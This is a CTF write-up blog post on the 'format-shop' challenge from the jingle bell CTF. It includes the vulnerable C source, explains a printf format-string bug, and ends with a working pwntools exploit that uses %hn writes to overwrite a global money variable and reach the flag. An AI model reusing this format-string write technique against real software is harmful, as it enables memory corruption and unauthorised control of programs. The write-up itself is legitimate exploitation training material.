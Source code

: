 ---
title: Binary exploitaion :format-string vulnerability
date: '2022-12-30'
tags: ['pwn', 'CTF']
draft: false
summary: 'writeup for a binary exploitaion challenge that was issued in the jingle bell CTF (format-string vulnerability).'
authors: ['oussema zouch']
---
### format-shop challenge from the jingle bell CTF .

given the source code:

```c
#include <stdio.h>

unsigned int money = 1500;

int menu(){
    puts("1. Go shopping!");
    puts("2. Give feedback.");
    puts("3. Bye");

    int tmp;
    printf("> ");
    scanf("%d", &tmp);
    getchar();
    return tmp;
}

void setup(){
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void flag(){
	char c;
    FILE *fp=fopen("./flag.txt","r");
    if(fp){
        while( (c=getc(fp)) != EOF)
            putchar(c);
        fclose(fp);
    }else{
        puts("Flag file not found!");
    }
}

void shop(){
    unsigned int prices[5] = {69, 12, 322, 554, 0x1337};
    char* items[5] = {"Ice", "Fish", "Icecream", "Sugar", "flag"};

    for(int i=0; i<5; i++){
        printf("%d. %s:%d coins.\n", i+1, items[i], prices[i]);
    }

    printf("You have %u coins\n", money);
    int idx;
    printf("Item> ");
    scanf("%d", &idx);
    getchar();

    if(idx < 1 || idx > 5){
        puts("Invalid index.");
        return;
    }

    idx--; // To use as index
    if(prices[idx] > money){
        puts("Not enough money");
        return;
    }

    if(idx == 4){
        flag();
    }
    money -= prices[idx];
    puts("Item bought!");
}

void feedback(){
    char feedbackContent[250];
    printf("> ");
    int c = read(0, feedbackContent, 249);

    if(c == -1) return;
    feedbackContent[c] = '\0';
    
    printf(feedbackContent);
    puts("Thanks for the feedback!");
}

int main(){
    setup();

    int choice;
    do{
        choice = menu();
        switch (choice)
        {
        case 1:
            shop();
            break;
        case 2:
            feedback();
            break;
        default:
            break;
        }
    }while(choice != 3);

    return 0;
}
```
there is a function called flag() in the source code that we can reach if we buy the the flag item which costs 0x1337 (4919) but we only have 1500 .
#### first let’s run some basic file checks .
![file check](/static/images/format1.png)

we can see that The No eXecute or the NX bit is enabled which means that we can’t jump to custom shellcode after being injected in the stack.

— — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — 



![](/static/images/format2.png)

hmmmm!!!that’s a **format-string vulnerability** and 6 is the first formatter’s offset we control since the hex representation of **‘%p-’ is 0x70252d**.

we can use this vulnerability and try to modify our money variable to make it higher than 4919.

**money_add**=0x0000000000404060

we will use the %nformat specifier which takes in a pointer (memory address) and writes there the number of characters written so far.

our payload will look like :payload=p64(**money_add**)+b’a’*5000+ b’%6$n’. so we expect that with this payload we will write 5000+4 bytes to money_add.

***BUT IT DOESN’T WORK!!!!!!!!!!!!!!!***

The reason it doesn’t work is that *printf* stops at null bytes, and the money-address contains null bytes. We have to put the format specifier first.

there is also another problem that will prevent this payload from working is that we can’t write 5004 bytes into memory .

we will try to write in the higher bytes of our address. there is a way to do this with %hn format specifier.

# CONSTRUCTING THE PAYLOAD

**_payload=b’a’\*16+b’%9$hn|||’+p64(money_add+2)_**

let’ s break and take a look at **money** in gdb :

![](/static/images/format3.png)
money is equal to 0x00000000001005dc (= 1050076)

## final exploit:

```python
from pwn import * 
import pwnlib.util.packing as pack
elf=ELF('main')
#p=elf.process()
p=remote('REMOTE_server',PORT)
money_add=0x0000000000404060
p.sendline(b'2')
payload=b'a'*16
payload+=b'%9$hn|||'
payload+=p64(money_add+2)
payload+=b'%10$hn||'
payload+=p64(money_add)
p.sendline(payload)
p.recvuntil(b'3. Bye')
p.sendline(b'2')
p.interactive()
```

Special Thanks to **Securinets INSAT** for bringing to life this challenging CTF .i really enjoyed learning new stuff related mainly to the binary exploitation category.
